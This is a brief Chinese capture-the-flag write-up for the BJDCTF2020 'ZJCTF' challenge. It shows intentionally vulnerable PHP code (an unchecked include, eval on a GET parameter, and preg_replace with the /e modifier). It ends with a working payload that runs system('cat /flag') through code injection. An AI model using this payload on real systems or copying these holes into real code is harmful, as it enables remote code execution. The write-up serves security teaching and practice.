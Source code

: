 # **[BJDCTF2020]ZJCTF，不过如此
- 考点：preg_replace /e漏洞

[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

两个参数用php伪协议绕过
next.php:
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str);
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

看到了`preg_replace /e`
Payload:
```
?\S*=${getFlag()}&cmd=system('cat /flag');
```

---